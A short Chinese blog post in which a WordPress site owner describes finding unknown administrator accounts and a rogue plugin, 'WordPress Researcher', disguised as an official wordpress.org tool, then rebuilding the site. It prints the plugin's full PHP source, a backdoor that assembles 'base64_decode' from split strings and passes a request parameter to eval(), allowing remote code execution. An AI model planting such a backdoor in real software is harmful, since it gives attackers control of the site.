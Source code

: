 ```yaml
---
layout: post
title: 被黑了？
date: 2014-11-21 23:23
author: 老杨
comments: true
categories: [wordpress, 信息技术]
---
```

早上起来，帮<a href="//cyhour.com/author/小嫦子" target="_blank">嫦子</a>发了篇<a href="http://cyhour.com/136" target="_blank">文章</a>。选择作者的时候，发现多了几个不知名（肯定不是我自己注册的、另外也关闭注册了的）的作者，吓了一跳。

检查了一遍，数据没丢失，那些管理员全部都是2010年3月19号注册的。检查插件，发现多了一个叫 <span style = "color:red;">WordPress Researcher</span> 的东东（文件最后修改日期是20141113）。哎，杯具了。就这么个破站，有啥好搞的呢？
<!--more-->
<img src="//cyhour.com/wp-content/uploads/2014/11/lots-of-admin.jpg" alt="lots-of-admin" />
<hr />
<img src="//cyhour.com/wp-content/uploads/2014/11/WordPress-Researcher.jpg" alt="WordPress Researcher"  />

那插件就一个文件，附上代码，不知道有啥用。

<pre style="margin:15px 0;font:100 12px/18px monaco, andale mono, courier new;padding:10px 12px;border:#ccc 1px solid;border-left-width:4px;background-color:#fefefe;box-shadow:0 0 4px #eee;word-break:break-all;word-wrap:break-word;color:#444"><span style="color:#555">&lt;?php</span><br><span style="color:#a50">/*</span><br><span style="color:#a50">Plugin Name: WordPress Researcher</span><br><span style="color:#a50">Plugin URI: http://wordpress.org/extend/plugins/</span><br><span style="color:#a50">Description: WordPress research tool.</span><br><span style="color:#a50">Author: wordpressdotorg</span><br><span style="color:#a50">Author URI: http://wordpress.org/</span><br><span style="color:#a50">Text Domain: wordpress-researcher</span><br><span style="color:#a50">License: GPL version 2 or later - http://www.gnu.org/licenses/old-licenses/gpl-2.0.html</span><br><span style="color:#a50">Version: 2.2.4</span><br><span style="color:#a50">*/</span><br>    <span style="color:#708">function</span> <span style="color:#@cm-word">research_plugin</span>()<br>    {<br>        <span style="color:#708">if</span> (<span style="color:#708">isset</span>(<span style="color:#000-2">$_REQUEST</span>[<span style="color:#a11">'X3PN'</span>]))<br>        {<br>            <span style="color:#000-2">$myfunc</span> <span style="color:#000">=</span> <span style="color:#a11">'bas'</span>.<span style="color:#a11">'e64_'</span>.<span style="color:#a11">'dec'</span>.<span style="color:#a11">'ode'</span>;<br>            <span style="color:#000-2">$myvar</span> <span style="color:#000">=</span> <span style="color:#000-2">$myfunc</span>(<span style="color:#000-2">$_REQUEST</span>[<span style="color:#a11">'X3PN'</span>]);<br>            <span style="color:#708">eval</span>(<span style="color:#000-2">$myvar</span>);<br>        }<br>        <span style="color:#@cm-word">return</span>;<br>    }<br><br>    <span style="color:#@cm-word">add_action</span>(<span style="color:#a11">'after_setup_theme'</span>, <span style="color:#a11">'research_plugin'</span>);<br><span style="color:#555">?&gt;</span></pre>

程序文件全部删掉了，导出了xml，数据库也不要了，重新安装导入了文章和评论内容，主题也重新检查了一遍，折腾大半天，终于又差不多回复原貌了。才发现，友链忘了备份了！又得手工整理一遍，累！
